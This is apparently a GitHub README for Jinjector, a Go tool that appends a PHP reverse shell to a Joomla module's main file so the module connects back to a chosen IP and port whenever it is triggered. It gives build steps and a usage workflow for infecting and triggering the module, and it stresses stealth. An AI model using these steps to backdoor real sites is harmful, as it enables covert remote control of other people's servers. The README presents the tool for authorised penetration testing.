 <img src="https://github.com/user-attachments/assets/f72b05a4-e65d-4e34-ac12-b07e5f9d090e" alt="Logo"/>

( It's pronounced "J in jek′tər" - J injector )

Jinjector is a powerful tool written in Go, designed to inject backdoors into Joomla modules effortlessly. Using this tool, you can easily insert a PHP reverse shell into a Joomla module's main file, allowing a connection back to a specified IP and port whenever the module is triggered. This is perfect for penetration testers or researchers aiming to simulate real-world scenarios.

> [!CAUTION]
> This tool is intended for educational and ethical testing purposes only. Unauthorized use of this tool on live systems without permission is illegal and unethical.

## ✨ Features 
- Automatic file discovery: Extracts information from the Joomla XML manifest file to locate the main file.
- Stealthy injection: Injects a PHP reverse shell that connects back to your specified IP and port.
- Ease of use: Specify your IP, port, and the module directory, and let Jinjector handle the rest.

## 📦 Requirements
- Go
- Joomla module directory (with a valid manifest.xml file)

## 🛠️ Installation
1. Clone the repository 
```bash
git clone https://github.com/giovanni-iannaccone/Jinjector
cd Jinjector
```
2. Build 
```bash
cd cmd
go build -o jinjector
```

## 🚀 Usage
1. Run the program 
```
jinjector --ip=YOUR_IP --port=YOUR_PORT --path=YOUR_PATH --backdoor=BACKDOOR_PATH
```
2. Load the infected module on the target site 
3. Start an http client on the port your gave in the previous step
4. Trigger the module by sendign a request to its position

## 🌍 How It Works 
**Manifest Extraction**: Jinjector parses the XML file in the given module directory to identify the main PHP file.
**Payload Injection**: Once located, it appends a PHP reverse shell payload to the main file.
**Connection Setup**: Every time the infected Joomla module is used, it attempts to establish a connection to your IP and port.

## ⚡️ Reverse Shell Code
The reverse shell code injected is just a proof of concept, designed to open a connection to the specified IP and port. You can modify the payload if needed for specific testing purposes (backdoor.php file)
I used the <a href="https://github.com/pentestmonkey/php-reverse-shell">pentestmonkey php reverse shell</a> 

## 🧩 Contributing
We welcome contributions! Please follow these steps:

1. Fork the repository.
2. Create a new branch ( using <a href="https://medium.com/@abhay.pixolo/naming-conventions-for-git-branches-a-cheatsheet-8549feca2534">this</a> convention).
3. Make your changes and commit them with descriptive messages.
4. Push your changes to your fork.
5. Create a pull request to the main repository.

## ⚖ License
This project is licensed under the GPL-3.0 License. See the LICENSE file for details.

## ⚔ Contact
- For any inquiries or support, please contact <a href="mailto:iannacconegiovanni444@gmail.com"> iannacconegiovanni444@gmail.com </a>.
- Visit my site for more informations about me and my work <a href="https://giovanni-iannaccone.github.io" target=”_blank”> https://giovanni-iannaccone.github.io </a>

🐞 Happy Hacking ... 
